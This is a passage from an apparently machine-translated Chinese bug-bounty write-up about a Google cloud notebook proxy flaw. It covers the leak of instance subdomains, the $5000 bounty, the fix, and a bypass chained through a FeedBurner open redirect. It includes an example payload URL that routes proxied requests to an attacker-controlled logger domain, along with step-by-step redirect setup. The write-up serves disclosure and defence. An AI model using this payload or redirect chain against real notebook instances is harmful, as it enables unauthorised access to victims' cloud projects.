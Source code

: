 ### 获取受害者实例子域的方法：

攻击者需要知道受害者的子域才能进行攻击。受害者子Instance-ID域中的 是随机的，无法猜测。那么，这里有一些可以获得它的方法。

  * 默认情况下，每个人的子域名都会在一般应用流程中通过引用者泄露到多个第三方域名。其中一些域是：

1. https://avatars.githubusercontent.com/  
2. https://github.com  
3. https://registry.npmjs.org  
任何有权访问这些域或这些服务器中的漏洞的人都可能泄露子域。

  * 在受害者项目中具有“笔记本查看器”角色的任何人都可以查看子域，然后利用此问题来访问所有受害者的项目。

示例有效负载：https://29559448054aa43f-dot-us-
central1.notebooks.googleusercontent.com/aipn/v2/proxy/logger.geekycat.in/compute.googleapis.com/

### 报酬：

我们向 Google 报告了此问题，作为其漏洞奖励计划的一部分。他们给了我们 5000 美元的赏金。

### 使固定：

  * 为GET端点添加了 CSRF 保护。

  * 正确提取并验证域。

## 旁路：

修复程序推出后，我注意到了另一种以前不存在的行为。

网址：  
https://{INSTANCE-ID}-dot-us-
central1.notebooks.googleusercontent.com/aipn/v2/proxy/compute.googleapis.com/

之前，更改compute.googleapis.comwithsomething.google.com会导致错误。但这一次，它起作用了。现在，如果我能在其中找到一个开放重定向，*.google.com我可以将其链接起来以绕过此检查。

Google 中最常见的公开记录的开放重定向是基于 javascript 的重定向，这在我们的情况下不起作用，因为服务器不解析 JS。于是我开始在
Google 子域中寻找 3xx 重定向。

几分钟后，我偶然发现了https://feedburner.google.com。该服务可让您管理您所在域的 RSS 源。这就像 RSS 提要的代理一样。

![]()

 在玩弄过程中，我注意到一种可以让我们获得开放重定向的行为。也就是说，如果您的代理已停用，它会将 URL 重定向到您的域，而不是代理您的 RSS 提要。

### 设置开放重定向：

  * 在您的域中托管 RSS 文件 (logger.geekycat.in)

  * 导航至https://feedburner.google.com--> 创建代理 --> 输入https://attacker.com/rss.xmlFeed URL --> 下一步 --> 复制“自定义 URL”--> 创建

复制的 URL 的格式如下：https://feeds.feedburner.com/{CUSTOM}/{ID}

  * 创建代理后，单击三个点 --> 停用 --> 确认
